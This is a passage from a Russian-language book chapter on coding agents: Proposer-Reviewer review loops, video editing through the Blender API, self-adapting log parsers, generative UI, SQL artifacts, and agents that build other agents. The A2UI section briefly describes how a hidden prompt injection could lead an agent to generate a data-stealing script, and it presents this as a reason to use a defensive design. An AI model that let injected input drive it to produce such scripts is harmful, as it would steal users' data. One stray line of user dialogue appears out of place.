Итерационный цикл Proposer-Reviewer в этой главе имеет общие корни с приложением **Pre-approval** (предварительное одобрение) из четвертой главы — оба являются примерами парадигмы Proposer-Reviewer: разделение генерации и проверки, независимая оценка двумя моделями. Разница заключается в целях и форме: в четвертой главе это использовалось для проверки безопасности необратимых операций, где Reviewer давал одобрение или отказ на разовое действие; в этой главе это применяется для итеративного улучшения качества контента — через множество циклов, при этом Reviewer получает доступ к новой информации (результатам рендеринга), которую не видит Proposer. Основные принципы проектирования остаются неизменными (общие целевые ограничения, использование разных семейств моделей для снижения вероятности однотипных ошибок, добавление обратной связи в траекторию Proposer как специального события). **Ключевое преимущество** использования разделения труда между двумя Agent вместо цикла с одним Agent заключается в **Context Management** (управление контекстом): Reviewer каждый раз обрабатывает только изображения рендеринга последней версии, не отвлекаясь на историю; Proposer накапливает только структурированную текстовую обратную связь, что потребляет меньше KV Cache и упрощает рассуждения. Решение с одним Agent потребовало бы накопления в одном контексте множества итераций с изображениями рендеринга десятков страниц, что быстро привело бы к превышению Context Window. Этот механизм будет повторно использован в последующих экспериментах по видеомонтажу и визуализации логов; в десятой главе будут дополнительно рассмотрены другие модели Multi-Agent (мультиагентное) взаимодействия помимо Proposer-Reviewer.

> **Эксперимент 5-4 ★★: Автоматическая генерация PPT на основе научных статей**
>
> **Цель эксперимента**: Автоматическая генерация высококачественных презентаций из академических статей для проверки эффективности механизма Proposer-Reviewer в контроле качества создания контента.
>
> **Техническое решение**: Использование фреймворка Slidev. Proposer Agent читает PDF статьи, извлекает структуру разделов, основные аргументы и диаграммы, планирует структуру PPT и генерирует код Slidev страница за страницей. **Ключевой этап**: Reviewer Agent делает скриншоты каждой страницы, использует Vision LLM для проверки эффекта рендеринга, выявляет переполнение текста, скученность контента, неподходящие размеры изображений и другие проблемы, формируя структурированные предложения по улучшению. Итерации до достижения нужного эффекта.
>
> **Критерии приемки**: Генерация 10–20 страниц PPT, охватывающих основные вклады статьи. Минимум 3 оригинальных диаграммы, соответствующих текстовым пояснениям. Отсутствие переполнения текста при рендеринге, рациональная компоновка. Сравнение разницы в потреблении контекста и качестве генерации между самопроверкой одного Agent и разделением ролей Proposer-Reviewer.

> **Эксперимент 5-5 ★★: Автоматическая генерация видео с объяснением статьи**
>
> **Цель эксперимента**: Расширение возможностей генерации PPT, сочетание визуальных и слуховых каналов для автоматического создания видеообъяснений.
>
> **Техническое решение**: На основе процесса генерации PPT из эксперимента 5-4, Agent одновременно генерирует разговорный текст объяснения для каждой страницы (повествование, а не просто пересказ), вызывает TTS (Text-to-Speech) для синтеза речи и использует ffmpeg для синхронного объединения скриншотов PPT с аудио в видеофайл.
>
> **Критерии приемки**: Видео длительностью 5–15 минут, точное соответствие времени отображения каждой страницы длительности речи, соответствие содержания объяснения визуальным элементам.
>
> 

**Agent для видеомонтажа.**

Использование универсального Computer Use для видеомонтажа сталкивается с фундаментальным вызовом: GUI программ для редактирования видео крайне сложен, содержит огромное количество временных шкал, слоев, панелей эффектов. Agent необходимо точно позиционировать эти элементы интерфейса и выполнять редактирование с помощью мыши и клавиатуры, что делает точный вывод координат крайне затруднительным.

Переосмысление редактирования видео как задачи Tool Calling (вызов инструментов) и генерации кода значительно снижает сложность процесса. Многие профессиональные программы, такие как Blender — инструмент для 3D-моделирования и видеомонтажа с открытым исходным кодом, поддерживающий управление через Python-скрипты; или FFmpeg — «швейцарский армейский нож» командной строки в области обработки аудио и видео, предоставляют программные API-интерфейсы, открывая доступ к основным функциям в структурированном и комбинируемом виде. Например, Blender Python API позволяет через код точно контролировать импорт видеофрагментов, обрезку, компоновку, эффекты перехода, микширование аудио и другие операции, где каждой операции соответствует четкий вызов функции. Для Agent (агент) преобразование требований на естественном языке в вызовы API гораздо проще, чем понимание графического интерфейса (GUI) и имитация кликов мышью. По аналогии с генерацией PPT, в редактировании видео также применяется механизм Proposer-Reviewer (предлагающий-рецензирующий): Proposer Agent генерирует скрипт Blender, а Reviewer Agent рендерит ключевые кадры и использует Vision LLM для проверки результата, предоставляя отзывы и предложения по доработке.

> **Эксперимент 5-6 ★★: Интеллектуальный видеомонтаж на базе API**
>
> **Цель эксперимента**: Проверить способность Agent реализовывать редактирование видео путем генерации кода Blender Python API, оценить роль механизма Proposer-Reviewer на основе визуальной обратной связи в обработке мультимедийного контента.
>
> **Основные вызовы**: Понимание требований пользователя к монтажу на естественном языке и их преобразование в точную последовательность вызовов API; обработка различных операций редактирования (склейка, объединение, субтитры, микширование аудиодорожек, визуальные эффекты); обеспечение корректного выполнения сгенерированного Python-скрипта. Proposer Agent после написания кода не может напрямую оценить видеоэффект, поэтому Reviewer Agent должен выполнить рендеринг и использовать Vision LLM для проверки ключевых кадров.
>
> **Техническое решение**: Пользователь предоставляет видеоматериалы (например, исходники с серфингом, хайкингом, катанием на лыжах) и описывает требования на естественном языке (например, «вырежи фрагмент с серфингом»). Proposer Agent через дочерний агент видеоанализа применяет **стратегию двухэтапного позиционирования**:
>
> **Первый этап, грубое позиционирование**: Вызывается дочерний агент, которому передается путь к видео, интервал скриншотов (каждые 10 секунд) и целевой вопрос. Дочерний агент с помощью FFmpeg извлекает ключевые кадры, передает все скриншоты вместе с вопросом в Vision LLM и возвращает временной интервал сцены (например, «серфинг находится на 40-110 секундах»).
>
> **Второй этап, точное позиционирование**: Дочерний агент вызывается повторно для более узкого диапазона с плотностью скриншотов каждую секунду для точного определения временных границ.
>
> Инкапсуляция видеоанализа в дочернем агенте позволяет избежать переполнения Context Window (контекстное окно) основного агента большим количеством скриншотов. После позиционирования генерируется API-скрипт Blender. Reviewer Agent выполняет быстрый предпросмотр, проверяет ключевые кадры и возвращает предложения по правкам; итерации продолжаются до достижения результата, после чего выполняется полный рендеринг.
>
> **Критерии приемки**: Agent способен точно идентифицировать различные сцены в видео и корректно генерировать скрипты монтажа согласно инструкциям на естественном языке. Точность определения начальной и конечной точек (погрешность не более 3 секунд). Если инструкции включают требования к спецэффектам (Slow-mo, переходы, субтитры), они должны быть корректно применены в итоговом видео. Reviewer Agent способен обнаруживать явные ошибки (пропуск важного контента, включение нерелевантных фрагментов) и инициировать исправление. Итоговый видеофайл имеет правильный формат и ожидаемое качество изображения.

### Код как системный адаптер

В предыдущих разделах код в основном создавал вещи, «ориентированные на человека» — отчеты, презентации, интерфейсы. Код в этом разделе направлен в другую сторону: **соединение машин с машинами**. В реальных системах внешние сервисы, с которыми должен взаимодействовать Agent, часто не имеют готовых SDK, а их интерфейсы не всегда стандартизированы — отсутствует документация, возвращаются нестандартные форматы, поля меняются от версии к версии. В таких ситуациях Agent не нужно ждать, пока кто-то заранее напишет слой адаптации; он может на месте прочитать документацию API или напрямую изучить один-два реальных ответа и мгновенно сгенерировать код адаптера: сконструировать HTTP-клиент, собрать заголовки аутентификации, распарсить нестандартную структуру ответа и транслировать модель данных вышестоящей системы в формат, пригодный для потребления нижестоящей. Код здесь становится «универсальным клеем» для соединения любых систем: там, где стыковка невозможна, на месте генерируется порция «кода-клея». Это и есть ядро направления «системных интерфейсов» в мета-способностях. Описанный далее самоадаптивный парсинг логов является конкретизацией этой способности в сценарии наблюдаемости (observability): сталкиваясь с постоянно меняющимися форматами логов, Agent точно так же полагается на генерацию кода парсинга «на лету» для адаптации.

Этот «универсальный клей» может распространяться и на **системы, полностью лишенные API**: когда внешняя система предоставляет только графический интерфейс, Agent может сначала выполнить действия через Computer Use (подробно описано в главе 9), а затем закрепить успешную последовательность операций в виде кода инструмента RPA. В будущем при выполнении той же задачи можно будет запускать код напрямую, завершая операции с высокой скоростью и стабильностью без необходимости повторного вызова дорогостоящего визуального анализа. Можно сказать, что RPA — это экстремальная форма «системного адаптера» для систем без интерфейсов; этот механизм «записи и фиксации рабочего процесса» будет подробно рассмотрен в главе 8.

Обработка данных — одна из самых распространенных, но и самых головных задач в программных системах. Корень проблемы кроется в разнообразии и постоянном изменении форматов данных. Одна и та же система в процессе эволюции может многократно менять формат — добавлять новые поля, изменять структуру вложенности, вводить новые типы. Написание кода парсинга вручную для каждого формата обходится крайне дорого в обслуживании: любое изменение требует обновления логики парсинга, тестирования совместимости и развертывания новой версии.

Генерация кода предлагает принципиально новый подход: позволить Agent при столкновении с новым форматом временно генерировать код парсинга на основе образцов данных. Система автоматически адаптируется к эволюции форматов данных без вмешательства человека.

**Анализ и визуализация логов Agent.**

Наблюдаемость (Observability) систем Agent (агент) опирается на визуализацию процессов выполнения. Сложная задача агента может включать сотни шагов, десятки вызовов LLM, выполнение множества инструментов (Tool Calling) и взаимодействие нескольких вложенных агентов. Визуализация этих данных сталкивается с рядом проблем: разные инструменты возвращают данные различной структуры, форматы которых постоянно меняются по мере итераций системы; полная траектория может содержать сотни тысяч символов, что требует поиска баланса между общим обзором и детализацией.

Code Generation (генерация кода) предлагает элегантное решение: создание цикла обратной связи с автоисправлением. Когда фронтенд сталкивается с форматом логов, который не может распарсить, он не выводит ошибку, а автоматически сообщает о неудаче (передавая образец исходного лога и подробную ошибку) агенту. Agent анализирует структуру данных и генерирует код фронтенда, способный корректно их обработать. Код сначала проходит автоматическое тестирование в виртуальном браузере (проверка корректности парсинга и использование Vision LLM для проверки визуальных эффектов), а после прохождения тестов применяется в системе фронтенда через Hot Update (горячее обновление).

> **Эксперимент 5-7 ★★★: Самоадаптирующаяся система парсинга логов**
>
> **Цель эксперимента**: Построить самоэволюционирующую систему визуализации логов Agent.
>
> **Техническое решение**: Изначально система поддерживает только базовые форматы. Фронтенд обнаруживает ошибку парсинга → сообщает Agent → генерация кода парсинга → тестирование в виртуальном браузере → развертывание через горячее обновление. Весь процесс автоматизирован.
>
> **Критерии приемки**: Автоматическое обнаружение ошибок и запуск процесса обучения; сгенерированный код проходит автотесты; после обновления новые форматы парсятся корректно.

**Автоматический анализ и диагностика проблем в логах выполнения Agent.**

В продакшн-среде Agent генерирует огромное количество логов траекторий (trajectory, запись полного процесса выполнения каждой задачи). Однако выявление проблем, поиск первопричин и создание тест-кейсов на основе логов — это высокозатратная работа. Локализация проблем затруднена, так как сбой задачи может быть вызван синергетической ошибкой нескольких модулей; стоимость воспроизведения высока из-за сложности продакшн-среды, которую трудно симулировать в тестовой среде; исправленные ошибки часто возникают снова из-за отсутствия систематического регрессионного тестирования.

Code Generation открывает путь к автоматизации диагностики. Agent может считывать логи продакшна и, опираясь на архитектурную документацию и PRD (документ описания продукта), автоматически определять, соответствует ли процесс выполнения ожиданиям, локализуя проблемные этапы и модули. На основе результатов анализа генерируется структурированный отчет о проблеме (приоритет, модуль, описание, предложения по улучшению) и регрессионные тест-кейсы. Тест-кейсы ссылаются на ID траектории проблемы и ключевые раунды взаимодействия, а тестовый Harness (обвязка) автоматически воспроизводит их для проверки того, выдает ли исправленная система корректный результат при тех же входных данных. Наконец, Agent через MCP (Model Context Protocol) подключается к GitHub для создания Issue и назначения их соответствующим разработчикам, завершая полную автоматизацию процесса от обнаружения проблемы до распределения задач.

> **Эксперимент 5-8 ★★★: Система интеллектуальной диагностики логов продакшна**
>
> **Цель эксперимента**: Автоматическое обнаружение проблем, генерация тест-кейсов и создание рабочих задач на основе траекторий из продакшна.
>
> **Техническое решение**: Agent считывает набор траекторий из продакшн-среды и анализирует их в сочетании с архитектурной документацией и PRD: идентифицирует паттерны проблем, локализует задействованные модули. Генерирует структурированный отчет о проблеме (приоритет, модуль, описание, рекомендации). Автоматически создает регрессионные тест-кейсы (ссылаясь на ID траектории и раунды взаимодействия для автоматического воспроизведения в тестовой обвязке). Через MCP подключается к GitHub для автоматического создания Issue.
>
>
> 
>
>
### Код как генеративный UI

Традиционные системы Agent в основном полагаются на текстовые диалоги для взаимодействия с пользователем. Однако текст как линейный и одномерный способ взаимодействия во многих сценариях малоэффективен. При необходимости сбора структурированной информации повторяющиеся вопросы и ответы делают диалог затянутым; при необходимости представления сложных взаимосвязей данных выразительность чистого текста ограничена; когда пользователю нужно выбрать из нескольких вариантов, текстовый список гораздо менее нагляден, чем визуальный интерфейс.

Code Generation позволяет преодолеть эти ограничения: Agent может динамически генерировать формы, интерактивные графики и даже полноценные Web-приложения, превращая статичный текстовый диалог в богатое мультимодальное взаимодействие. Такая модель динамической генерации интерфейса агентом называется **Generative UI** (генеративный UI).

**Протоколы типа A2UI: стандартизация генеративного UI.**

Когда Agent (агент) напрямую генерирует HTML и JavaScript код для создания UI (пользовательского интерфейса), возникает фундаментальная проблема безопасности: сгенерированный код может содержать вредоносный контент. Например, если кто-то намеренно скроет инструкцию во входных данных, Agent может поддаться Prompt Injection (промпт-инъекция) и незаметно для пользователя создать скрипт, крадущий данные. Здесь важно различать причину и следствие: причиной является **Prompt Injection** (вредоносные инструкции попадают на вход агенту), а **эффект** в виде исполнения вредоносного скрипта в браузере и кражи данных напоминает традиционную веб-атаку XSS (Cross-Site Scripting, межсайтовый скриптинг) — однако нельзя называть всю атаку целиком просто XSS. Декларативные протоколы интерфейса, представленные A2UI (Agent-to-User Interface), предлагают более безопасное направление: Agent не генерирует исполняемый код напрямую, а лишь выводит «описание интерфейса» (в формате JSON), например: «Пожалуйста, отобрази таблицу из 3 строк и 2 столбцов с заголовком „Данные о продажах“». Получив этот список, клиент использует заранее подготовленные безопасные компоненты для рендеринга интерфейса. Это похоже на меню в ресторане: посетитель (Agent) может заказывать только те блюда, которые есть в меню (предопределенные компоненты), но не может зайти на кухню и готовить сам (исполнять произвольный код). Здесь стоит прояснить часто путаницу: AG-UI (Agent-User Interaction, предложенный CopilotKit), хотя и имеет похожее название, не является языком описания интерфейса. Это сопутствующий **протокол событий/передачи данных**, отвечающий за потоковую передачу состояния выполнения Agent (сообщения, Tool Calling, патчи состояния) на фронтенд; он сам может переносить интерфейсную нагрузку, такую как A2UI. Таким образом, они дополняют друг друга, а не являются однотипными решениями, и их не следует классифицировать как один и тот же «протокол декларативного интерфейса».

Основным принципом проектирования таких протоколов является **Security First** (приоритет безопасности): клиент поддерживает каталог доверенных компонентов (таких как Card, Button, TextField, Table), и Agent может запрашивать рендеринг только существующих в каталоге элементов, не имея возможности внедрить произвольный код. Клиент использует свои нативные компоненты для отрисовки, а не исполняет сгенерированный агентом HTML. Такие протоколы обычно поддерживают **Cross-platform** (кроссплатформенность — одно и то же описание рендерится в React, Flutter или нативных приложениях) и **Incremental Generation** (инкрементальная генерация — потоковый формат JSONL, позволяющий рендерить данные по мере получения).

Конечно, декларативный подход подходит для стандартизированных сценариев взаимодействия (формы, таблицы, карточки), тогда как для высокоспециализированных требований (например, кастомная визуализация или игровые интерфейсы) прямая генерация кода по-прежнему остается более гибким выбором. Ниже представлены конкретные примеры применения обоих режимов.

**Использование HTML для предоставления результатов: замена отчетам в Markdown.** Генеративный UI используется не только в процессе взаимодействия, он также меняет форму того, как Agent представляет финальный **результат работы**. Традиционно после выполнения задачи Agent часто выдает отчет в формате Markdown; однако читать страницу за страницей линейно расположенный текст не всегда удобно. По мере того как способности Agent к генерации фронтенд-кода растут, все больше практик переходит на прямой вывод HTML. По сравнению с Markdown, артефакты в HTML имеют несколько очевидных преимуществ. Во-первых, это **интерактивная демонстрация**: можно наглядно показать, как работает система в рабочем виде, что пользователь понимает мгновенно, в отличие от длинных текстовых описаний. Во-вторых, **лучшая визуализация данных**: использование графиков вместо таблиц для представления данных, а также создание интерактивных компонентов, позволяющих пользователю самостоятельно просматривать, фильтровать и углубляться (drill-down) в интересующие детали. В-третьих, **постоянно совершенствуемые артефакты**: HTML-сайт не обязан быть статичным объектом, выдаваемым один раз в конце задачи; он может непрерывно дополняться и обновляться агентом по мере продвижения работы.

В качестве примера приведу свой опыт написания научных статей: для каждого исследовательского проекта я поддерживаю интерактивный сайт[^ch5-3], который является не только финальным результатом, но и «живым документом» в процессе исследования — я поручаю Agent постоянно обновлять его по мере проведения экспериментов. Этот сайт выполняет как минимум три функции. Во-первых, **отслеживание экспериментальных данных**: конкретные данные каждого эксперимента, использованные prompt и оригинальные ответы LLM можно просмотреть на сайте построчно. Когда все это разложено перед глазами, гораздо проще обнаружить проблемы в структуре, формате и распределении данных, а также понять, есть ли систематические отклонения в ответах LLM и оценках судьи (judge). Во-вторых, **мониторинг показателей обучения**: отображение кривых процесса обучения прямо на веб-странице позволяет в любое время подтвердить «здоровье» **внутренних показателей** модели. Здесь я использую медицинский термин «внутренние показатели» (internal metrics) — это сигналы, отражающие нормальность самого процесса обучения, такие как Training Loss и Validation Loss, нормы градиента, Learning Rate (скорость обучения), Perplexity (перплексия — мера «уверенности» модели в генерируемом контенте), а также вознаграждение (reward), KL-дивергенция и энтропия стратегии в Reinforcement Learning. Они отличаются от итоговых метрик, таких как точность выполнения задачи: подобно тому как физиологические показатели при медосмотре определяют внешнее состояние человека, внутренние показатели часто позволяют раньше выявить такие проблемы, как отсутствие сходимости лосса, взрыв градиента или крах обучения. В-третьих, **демонстрация принципов работы**: визуальное представление логики работы всей системы позволяет с первого взгляда понять структуру системы, построенной с помощью AI.

[^ch5-3]: Сайт с исследовательскими проектами автора доступен по адресу https://01.me/research/ , где каждый проект сопровождается постоянно обновляемым интерактивным сайтом.

**Уточнение намерений пользователя.**

Когда требования пользователя выражены неясно или не полностью, Agent (агент) должен собрать необходимую информацию с помощью уточняющих вопросов. Такие продукты, как OpenAI Deep Research, обычно используют текстовый формат вопросов и ответов, но у этого подхода есть очевидные ограничения. С точки зрения эффективности: на каждый вопрос требуется один раунд диалога, и десять уточняющих моментов потребуют десяти итераций взаимодействия. С точки зрения выразительности: между некоторыми вопросами существуют зависимости (например, выбор «места назначения» влияет на доступные варианты «способа передвижения»), и чистый текст с трудом передает такие каскадные связи.

С помощью генерации кода Agent может создавать структурированные интерактивные интерфейсы взамен текстовых вопросов и ответов. На Рисунке 5-8 показан процесс генерации динамических форм, иллюстрирующий, как Agent преобразует уточняющие вопросы в структурированный интерфейс, заполняемый за один раз. Agent генерирует HTML-форму, содержащую различные элементы управления: текстовые поля для сбора открытой информации, выпадающие меню для выбора из предопределенных вариантов, чекбоксы для множественного выбора и селекторы дат для упрощения ввода времени. Более того, Agent может создавать каскадные формы, реализуя динамическую логику с помощью JavaScript: при выборе определенного варианта последующие вопросы автоматически отображаются или скрываются, а доступные опции динамически обновляются. Пользователь заполняет всю форму целиком, избавляясь от необходимости многораундовых диалогов и четко видя всю необходимую информацию и логические связи между вопросами.

> **Эксперимент 5-9 ★★: Система уточнения намерений через генерацию динамических форм**
>
> **Цель эксперимента**: Проверить способность Agent уточнять намерения пользователя путем динамической генерации HTML-форм.
>
> **Техническое решение**: Agent анализирует запрос пользователя, выявляет моменты, требующие уточнения, и генерирует код формы с каскадной логикой. Фронтенд выполняет рендеринг, пользователь отправляет данные один раз, Agent парсит JSON-данные и продолжает выполнение задачи.
>
> **Критерии приемки**: Пользователь вводит «Я хочу забронировать авиабилет до Пекина», Agent генерирует форму, содержащую: город вылета (текстовый ввод), дату вылета (селектор даты), тип поездки (радиокнопка: в одну сторону / туда и обратно), дату возвращения (отображается только при выборе «туда и обратно»). Пользователь предоставляет всю информацию за одну отправку.

**Генерация SQL-запросов.**

Запросы к базам данных — это сценарий, в котором генерация кода может значительно улучшить опыт взаимодействия. Традиционный доступ к базам данных опирается на GUI-инструменты или написание SQL вручную: первые громоздки в использовании, вторые требуют от пользователя специальных знаний. Agent может преобразовывать естественный язык в SQL, но здесь есть ключевой дизайнерский выбор: должен ли Agent сам выполнять SQL и описывать результат на естественном языке, или же Agent должен генерировать SQL-код как artifact (артефакт), который будет исполнен напрямую фронтендом?


Первый вариант кажется более «интеллектуальным», но он крайне неэффективен — результаты запроса могут содержать тысячи строк данных. Чтение такого объема LLM с последующим текстовым описанием не только расходует огромное количество токенов и занимает много времени, но и, что более серьезно, ведет к ошибкам при «переписывании» данных моделью. Лучшим решением является **artifact-модель**. На Рисунке 5-9 показан рабочий процесс SQL-запросов через Agent: Agent не читает данные сам, а генерирует фрагмент кода SQL-запроса и передает его системе как независимый «изделие» (artifact). Система берет этот SQL, обращается напрямую к базе данных и рендерит полученные данные в виде таблицы, понятной пользователю. В этом процессе данные попадают из базы данных прямо в пользовательский интерфейс, полностью минуя LLM как «посредника». LLM отвечает только за написание инструкций запроса и не нуждается в личном прочтении тысяч строк данных для их пересказа пользователю, что обеспечивает одновременно скорость и точность.

В дальнейшем Agent может генерировать два артефакта, формируя конвейер: SQL-запрос + код визуализации (например, гистограмму). Фронтенд передает результаты SQL напрямую в код визуализации, а LLM отвечает только за генерацию кода, не участвуя в передаче данных — в этом и заключается суть генерации кода как интерфейса.

> **Эксперимент 5-10 ★★: ERP Agent с интерфейсом на естественном языке**
>
> ERP-системы (Enterprise Resource Planning) являются критически важными для предприятий. В настоящее время они обычно используют GUI-интерфейсы, где сложные операции требуют множества кликов мышью. AI Agent может преобразовывать запросы пользователя на естественном языке в SQL-выражения, реализуя автоматизацию запросов.
>
> Требуется создать базу данных PostgreSQL, содержащую две таблицы: (1) Таблица сотрудников, включающая ID сотрудника, имя, отдел, уровень, дату приема на работу, дату увольнения (пустое значение означает, что сотрудник в штате); (2) Таблица зарплат, включающая ID сотрудника, дату выплаты, сумму зарплаты (одна запись в месяц). Agent должен автоматически отвечать на вопросы:
>
> 1. Какова средняя продолжительность работы сотрудника в компании?
> 2. Сколько действующих сотрудников в каждом отделе?
> 3. В каком отделе самый высокий средний уровень сотрудников?
> 4. Сколько новых сотрудников было принято в каждом отделе в этом и прошлом году?
> 5. Какова средняя зарплата в отделе А с марта позапрошлого года по май прошлого года?
> 6. Чья средняя зарплата в прошлом году была выше: в отделе А или отделе Б?
> 7. Какова средняя зарплата сотрудников каждого уровня в этом году?
> 8. Какова средняя зарплата за последний месяц для сотрудников со стажем до года, от года до двух лет и от двух до трех лет?
> 9. Кто те 10 сотрудников, у которых был самый большой рост зарплаты с прошлого по текущий год?
> 10. Есть ли задолженности по зарплате (сотрудник числился в штате в определенном месяце, но выплата не производилась)?

**Динамическая генерация программного обеспечения.**

Ультимативное применение возможностей генерации кода заключается в том, чтобы позволить Agent полностью динамически, с нуля создавать программное обеспечение. Проект «Imagine with Claude» от Anthropic демонстрирует границы этой возможности: пользователь озвучивает потребность, Claude в реальном времени генерирует фронтенд-интерфейс и логику взаимодействия, пользователь взаимодействует с созданным ПО, а Claude модифицирует код для создания нового интерфейса, отображающего результаты действий. На протяжении всего процесса пользователь видит приложение, которое возникает из ничего и непрерывно эволюционирует.

Здесь необходимо сначала провести разграничение с восьмой главой. В данном разделе речь идет о том, как Agent (агент) использует код для **исправления и создания себе подобных Agent** — самовосстановления, саморепликации и размножения новых Agent по запросу; объектом воздействия здесь являются код и структура Agent. «Самоэволюция» из восьмой главы — это совсем другое: она подразумевает непрерывный рост способностей Agent (накопление опыта, оптимизация промптов, аккумулирование инструментов) **без изменения весов модели**; объектом воздействия здесь являются знания и стратегии Agent. И то, и другое можно назвать «эволюцией», но, чтобы избежать путаницы с названием восьмой главы, в данном разделе для обозначения способности «производить Agent с помощью кода» используется термин **Bootstrapping** (самозагрузка).



Однако такой режим полностью динамической генерации характеризуется высокой стоимостью и задержками, поэтому он больше подходит в качестве эксперимента для демонстрации границ возможностей. Более прагматичное направление — **кастомизированная модификация на основе существующих фреймворков**. Эта «полукастомная» модель сохраняет стабильность базового программного обеспечения, одновременно открывая пользователю контроль в определенных измерениях: пользователь говорит «сделай кнопку синей», «добавь быстрое меню в боковую панель» или «измени шрифт на более читабельный», Agent (агент) понимает запрос и правит фронтенд-код, после чего мгновенно вступает в силу Hot Module Replacement (HMR, локальная горячая замена; сохранение состояния приложения, вступление в силу без перезагрузки всей страницы). Это превращает стандартный продукт «один для всех» в персонализированный опыт «один на тысячу лиц».

> **Эксперимент 5-11 ★★: Система кастомизации диалогового интерфейса**
>
> **Цель эксперимента**: реализовать возможность мгновенной кастомизации интерфейса программного обеспечения пользователем через диалог на естественном языке; проверить эффективность генерации кода с поддержкой механизма HMR для обеспечения персонализированного пользовательского опыта.
>
> **Техническое решение**: построение базового приложения-чатбота (React на фронтенде + FastAPI на бэкенде), где и фронтенд, и бэкенд запущены в режиме разработки с поддержкой горячей перезагрузки (HMR в React, `reload` в FastAPI). Пользователь в диалоге выдвигает требования по кастомизации UI (цвет, шрифт, макет, расположение компонентов и т. д.), а Agent самостоятельно модифицирует код. Механизм HMR автоматически обнаруживает изменения в файлах, фронтенд пересобирается и обновляется, и пользователь в реальном времени видит изменения интерфейса. Поддерживается многораундовая итеративная кастомизация.

### Код создает код: Agentic Bootstrapping

Предыдущие разделы продемонстрировали применение генерации кода в различных областях — от математических рассуждений до создания документов и кастомизации интерфейсов. Если довести эти способности до предела, возникнет естественный вопрос: может ли Agent использовать возможности генерации кода для создания другого Agent?

**Самовосстановление Agent: OpenClaw Doctor.**

Важной предпосылкой для Bootstrapping является способность к самовосстановлению. Команда `doctor` в OpenClaw является воплощением этой способности — она может автоматически обнаруживать три типа проблем:

- **Аномалии конфигурации**: истекшие OAuth token, устаревшие форматы конфигурации, конфликты портов.
- **Проблемы состояния**: устаревшие файлы блокировки сессий, отсутствие зависимостей плагинов.
- **Проблемы здоровья сервисов**: неработающий шлюз, отсутствие образов песочницы.

Затем проблемы решаются с помощью стратегии многоуровневого восстановления: безопасные исправления (нормализация конфигурации, очистка файлов блокировки) выполняются автоматически; рискованные операции (перезапуск сервисов, принудительная перезапись конфигурации) требуют подтверждения пользователя.

Здесь следует избегать преувеличений: такие часто встречающиеся проблемы, как истекшие token, файлы блокировки и конфликты портов, сами по себе имеют четкие правила обнаружения и фиксированные действия по исправлению. `doctor` **базируется на наборе детерминированных проверок**, чтобы сначала покрыть их — это принципиально не отличается от традиционных скриптов эксплуатации и обслуживания. Настоящие способности Agent проявляются на втором уровне: для сложных проблем, не охваченных детерминированными правилами, `doctor` передает задачу LLM для анализа логов ошибок, понимания семантики конфигурационных файлов, вывода причинно-следственных связей и генерации адресных планов исправления. Детерминированные проверки гарантируют стабильное исправление типичных проблем, а LLM подстраховывает в решении редких и сложных случаев (long-tail problems) — благодаря взаимодействию этих двух уровней `doctor --fix` может автоматически решать значительную часть распространенных проблем шлюза. Когда объектом работы Agent становится не внешняя система, а его собственная среда выполнения, эта модель «Agent исправляет Agent» превращает способность к самовосстановлению из системного адаптера в инфраструктуру для Bootstrapping.

**Ключевые приемы написания Agent с помощью Agent.**

Создание высококачественного Agent гораздо сложнее, чем генерация кода обычного приложения, так как оно требует глубокого понимания паттернов архитектуры Agent, лучших практик и распространенных ловушек. При отсутствии таких экспертных знаний в предметной области даже самая мощная модель генерации кода может создать Agent с серьезными архитектурными дефектами. К распространенным дефектам относятся:

1. **Бессистемность управления контекстом**: неиспользование стандартных форматов контекста, обсуждавшихся во второй главе; запихивание треков выполнения в контекст в виде чистого текста; игнорирование оптимизации KV Cache, которую дают структурированные сообщения; наличие граничных багов в циклах Tool Calling.
2. **Ненормализованное проектирование инструментов**: скудные описания, отсутствие указаний границ использования и негативных списков (negative constraints), нехватка конкретных примеров для параметров.
3. **Отсталость технологического стека**: склонность использовать наиболее распространенные в обучающих данных, но уже устаревшие модели и API. Решение: поддержка базы знаний SOTA или наделение Agent способностью к поиску.
4. **Оторванность от внешней экосистемы**: использование заброшенных API, неподдерживаемых библиотек или дефектных паттернов.

Самый эффективный путь решения этих проблем — не в том, чтобы исчерпать все правила в промпте, а в том, чтобы **предоставить высококачественные реализации Agent в качестве эталонных примеров**, направляя Agent-генератор кода на внесение изменений на их основе, а не на создание с нуля.

Пользователь: Я хочу вернуть наушники, купленные 3 дня назад, номер заказа 12345. (Сегодня 2026-04-10)

«Генерация на основе примеров» обладает очевидными преимуществами: код примера сам по себе является носителем Best Practices (лучшие практики). Agent (агенту) гораздо проще внести изменения в готовый пример, чем писать код с нуля, при этом удачные архитектурные решения сохраняются естественным образом, избавляя от необходимости прописывать каждое правило в Prompt (промпт).

Когда Agent получает задачу по разработке нового агента, он должен сначала скопировать собственный код (или другую проверенную высококачественную реализацию), а затем внести целевые правки: адаптировать System Prompt (системный промпт) под новую роль, заменить, добавить или удалить инструменты для реализации новых функций, изменить бизнес-логику, сохранив при этом архитектурный каркас. Такая модель «самокопирования с адаптивной модификацией» гарантирует, что новый Agent унаследует ключевые технологические преимущества, допуская при этом различия в конкретных аспектах — подобно биологическому копированию генов с последующей мутацией.

> **Эксперимент 5-12 ★★★: Разработка Agent, способного создавать других Agent**
>
> **Цель эксперимента**: Создать Coding Agent (кодинг-агент), обладающий способностями к Metaprogramming (метапрограммирование — написание программ, которые создают или изменяют другие программы), способный автоматически создавать новые системы агентов по запросу пользователя, обеспечивая соблюдение лучших практик.
>
> **Техническое решение**: Предоставить Coding Agent высококачественную реализацию агента в качестве эталонного примера (можно использовать сам проект `ch5/coding-agent`). При получении запроса на создание нового агента, Agent сначала копирует код этого примера, а затем вносит в него целевые изменения на основе конкретных требований пользователя.
>
> **Критерии приемки**: Сгенерированный Agent успешно запускается и выполняет базовые задачи. Проверка осуществляется с использованием стандартных форматов сообщений и протоколов Tool Calling (вызов инструментов), с применением актуальных рекомендованных моделей и API. Тестируется корректность управления Context (контекст) и состоянием в многораундовых диалогах. Проводится сравнение режимов генерации с нуля и модификации на основе примера для подтверждения преимуществ последнего в качестве и эффективности.
>
>
> 
>
>
Самовоспроизведение (Bootstrap) агентов представляет собой ультимативное применение возможностей генерации кода — Agent, способный создавать других Agent, реализует интеллектуальное саморазмножение. На этом мы завершили разбор основной линии: от основ Coding Agent до многогранной ценности генерации кода и, наконец, до самовоспроизведения.

## Резюме главы

В центре внимания этой главы неизменно оставался один и тот же тезис: код — это не просто инструмент для написания программ, это язык для формализованного мышления и точного выражения мыслей Agent.

